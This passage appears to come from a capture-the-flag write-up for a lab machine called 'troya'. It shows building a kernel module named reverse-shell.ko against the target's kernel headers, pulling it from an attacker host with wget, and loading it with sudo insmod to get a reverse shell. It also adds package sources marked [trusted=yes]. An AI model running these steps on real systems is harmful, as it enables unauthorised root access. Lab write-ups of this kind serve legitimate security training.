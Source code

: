 Since troya machine is running linux kernel `4.19.0-12-amd64`

```bash
helena@troya:/tmp$ uname -r
uname -r
4.19.0-12-amd64

```

Our Makefile also has to use `linux-headers-4.19.0-12-amd64`.

```Makefile
obj-m +=reverse-shell.o

all:
    make -C /lib/modules/4.19.0-12-amd64/build M=$(PWD) modules

clean:
    make -C /lib/modules/4.19.0-12-amd64/build M=$(PWD) clean
```

If your like me and uses ubuntu or other source to build exploit sometimes , below is the steps I used to get the source of the old linux headers.

```
Put in /etc/apt/sources.list.d/debian-src.list the below:
deb     [trusted=yes] https://snapshot.debian.org/archive/debian/20201019T121403Z/ buster main
deb-src [trusted=yes] https://snapshot.debian.org/archive/debian/20201019T121403Z/ buster main
deb     [trusted=yes] https://snapshot.debian.org/archive/debian-security/20201019T121403Z/ buster/updates main
deb-src [trusted=yes] https://snapshot.debian.org/archive/debian-security/20201019T121403Z/ buster/updates main

Run in bash:
sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys 9D6D8F6BC857C906 AA8E81B4331F7F50 7638D0442B90D010 CBF8D6FD518E17E1
apt-get -o Acquire::Check-Valid-Until=false update
```


After running `make` command , transfer `reverse-shell.ko` to victim machine:

```bash
helena@troya:/tmp$ wget http://192.168.56.3:1235/reverse-shell.ko
wget http://192.168.56.3:1235/reverse-shell.ko
--2022-01-05 03:18:27--  http://192.168.56.3:1235/reverse-shell.ko
Connecting to 192.168.56.3:1235... connected.
HTTP request sent, awaiting response... 200 OK
Length: 279832 (273K) [application/octet-stream]
Saving to: ‘reverse-shell.ko’

reverse-shell.ko    100%[===================>] 273.27K  --.-KB/s    in 0.001s  

2022-01-05 03:18:27 (226 MB/s) - ‘reverse-shell.ko’ saved [279832/279832]

helena@troya:/tmp$ sudo /usr/sbin/insmod reverse-shell.ko
sudo /usr/sbin/insmod reverse-shell.ko
```
